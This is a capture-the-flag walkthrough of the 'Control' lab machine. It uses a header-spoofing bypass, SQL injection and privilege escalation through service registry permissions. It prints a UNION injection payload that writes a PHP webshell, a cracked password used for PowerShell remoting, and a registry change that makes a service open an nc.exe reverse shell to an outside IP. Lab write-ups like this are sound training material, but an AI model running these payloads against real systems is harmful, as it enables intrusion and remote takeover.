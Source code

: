 # Control

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### X-Forwaded-For Bypass

Using `gobuster` we can find the directories:

<figure><img src="../../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

When trying to access the `admin.php` page, we get this error:

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

Perhaps we can spoof the `X-Forwarded-For` header using an IP address. When checking the page sources of multiple pages, we can find this:

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Appending the `X-Forwarded-For: 192.168.4.28` header, we can access the `admin.php` page.

### SQL Injection for Webshell

Within the `admin.php` page, we can find that there is an application that is able to search for products.

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

We can attempt SQL Injection easily and confirm there is an unsanitsed input being passed.

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

With this, I attempted UNION Injection to find out how many columns there were. In total, there were 6.

We can write a webshell into the normal working webroot directory:

```sql
\' UNION SELECT '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'#
```

Then, we can check for RCE:

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MariaDB Credentials

Within the machine, we can find the other users that were present:

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

So we are looking for credentials for Hector. Understanding that there was a MariaDB instance running on the machine, I checked the files that were related to that first.&#x20;

Within the `C:\MariaDB\mysql` folder, we can find hashes for a user:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Alternatively, we could use the SQL Injection vulnerability to dump these credentials out. Anyways, we would find a hash for the Hector user. His hash can be cracked on CrackStation to give `l33th4x0rhector`.

Enumerating the privileges that Hector has, we also see that he's part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This means that we can remotely access Hector's account over WinRM. Since there was no WinRM port available for me to use `evil-winrm`, I opted for Remote Powershelling.

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CONTROL\Hector",$pass)
Invoke-Command -Computing localhost -ScriptBlock { whoami } -Credential $cred
```

We can use this to execute `nc.exe` to give us another reverse shell as Hector.

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### Powershell History

This part was a tad tricky. I ran a WinPEAS and it picked up on the Powershell history for Hector.

<figure><img src="../../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

When running these commands, I get a load of text that I don't really understand:

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

Perhaps this was a clue to look into the ACLs and permissions Hector has.

### Service Registry Permissions

Picking up on the rest of WinPEAS output, we see that Hector has FullControl permissions over loads of services.

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

FullControl permissions can be abused for forms of DLL Hijacking, or changing certain properties to execute scripts or files of our choosing.&#x20;

To exploit this, we need to find a service that satisfies 3 conditions:

* Is not started by default, and we need to manually start it
* Have FullControl permissions over it to alter its properties to execute scripts
* Run by `LocalSystem` to ensure that we run our scripts as the SYSTEM user.

I began enumeration for services that I could restart. I found a resource here that told us what specific permissions we needed:

{% embed url="http://woshub.com/set-permissions-on-windows-service/" %}

```
CC — SERVICE_QUERY_CONFIG (request service settings)
LC — SERVICE_QUERY_STATUS (service status polling)
SW — SERVICE_ENUMERATE_DEPENDENTS
LO — SERVICE_INTERROGATE
CR — SERVICE_USER_DEFINED_CONTROL
RC — READ_CONTROL
RP — SERVICE_START
WP — SERVICE_STOP
DT — SERVICE_PAUSE_CONTINUE
```

In this case, we need the `RP` permission to restart a service. To check whether a service is run by `LocalSystem`, we would have to refer to the `SERVICE_START_NAME` variable when using `sc.exe` to query the service. Lastly, we can refer to this table for the values of the `START_TYPE` variable to find a service that is started manually (3 is the value we are looking for):

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

When looking through the services that Hector had FullControl permissions over (via WinPEAS output), we find this one:

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

This service certainly fits the conditions needed. We can use `sc.exe config` to modify the `binpath` variable to give us a reverse shell. However, the `sc.exe` method lept failing.

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

I tried the Powershell `Set-ItemProperty` method, and it worked better:

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 6666"
```

Afterwards, we can start the service and get a shell as the administrator. (I don't have screenshots of the administrator shell D:)
